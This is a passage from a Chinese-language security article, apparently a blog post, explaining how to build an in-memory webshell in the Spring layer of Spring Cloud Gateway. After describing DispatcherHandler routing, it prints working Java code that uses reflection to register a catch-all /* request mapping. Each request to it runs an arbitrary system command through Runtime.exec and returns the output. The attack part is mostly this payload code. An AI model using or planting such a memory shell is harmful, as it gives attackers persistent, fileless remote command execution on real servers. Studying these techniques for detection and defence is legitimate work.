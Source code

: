 ![netty内存马执行效果](https://shs3.b.qianxin.com/butian_public/f148850e27e1c9f5729c4962baa34a6a5964b183a2111.jpg)

0x03 Spring层内存马
===============

Spring层request请求处理组件很多，有handler/Adapter/Filter等等，理论上都可以拿来做内存马，这里我分享下最简单的`RequestMappingHandler`。

Spring cloud gateway主要的路由分发主要由`org.springframework.web.reactive.DispatcherHandler`类和它三个组件来完成

1. org.springframework.web.reactive.HandlerMapping 路由比配器
2. org.springframework.web.reactive.HandlerAdapter handler适配器
3. org.springframework.web.reactive.HandlerResultHandler 结果处理器

具体逻辑如下：

```php
// org.springframework.web.reactive.DispatcherHandler#handle  
public Mono<Void\> handle(ServerWebExchange exchange) {  
    return this.handlerMappings \== null ? this.createNotFoundError() : Flux.fromIterable(this.handlerMappings).concatMap((mapping) \-> {  
        return mapping.getHandler(exchange); // Step1. 使用HandlerMapping匹配路由  
    }).next().switchIfEmpty(this.createNotFoundError()).flatMap((handler) \-> {  
        return this.invokeHandler(exchange, handler); // Step2. 使用具体HandlerAdapter来处理具体请求  
    }).flatMap((result) \-> {  
        return this.handleResult(exchange, result); // Step3. 使用适合的HandlerResultHandler来处理返回的结果  
    });  
}
```

基于这个流程，我们可以梳理出一个构造内存马的思路。让`HandlerMapping`注册一个映射关系，通过映射关系让特定的HandlerAdapter执行到我们的内存马流程，最后内存马返回一个HandlerResultHandler可以处理的结果类型即可。

这里我选择`RequestMappingHandlerMapping`这个HandlerMapping，来注册一个与使用`@RequestMapping("/*")`等效的内存马。

![RequestMappingHandlerMapping](https://shs3.b.qianxin.com/butian_public/f874927b01ed1b4678f76e4d5fd20f8e1ba39ca6b503c.jpg)

```php
public class SpringRequestMappingMemshell {  
    public static String doInject(Object requestMappingHandlerMapping) {  
        String msg \= "inject-start";  
        try {  
            Method registerHandlerMethod \= requestMappingHandlerMapping.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);  
            registerHandlerMethod.setAccessible(true);  
            Method executeCommand \= SpringRequestMappingMemshell.class.getDeclaredMethod("executeCommand", String.class);  
            PathPattern pathPattern \= new PathPatternParser().parse("/\*");  
            PatternsRequestCondition patternsRequestCondition \= new PatternsRequestCondition(pathPattern);  
            RequestMappingInfo requestMappingInfo \= new RequestMappingInfo("", patternsRequestCondition, null, null, null, null, null, null);  
            registerHandlerMethod.invoke(requestMappingHandlerMapping, new SpringRequestMappingMemshell(), executeCommand, requestMappingInfo);  
            msg \= "inject-success";  
        }catch (Exception e){  
            msg \= "inject-error";  
        }  
        return msg;  
    }  
​  
    public ResponseEntity executeCommand(String cmd) throws IOException {  
        String execResult \= new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A").next();  
        return new ResponseEntity(execResult, HttpStatus.OK);  
    }  
}
```
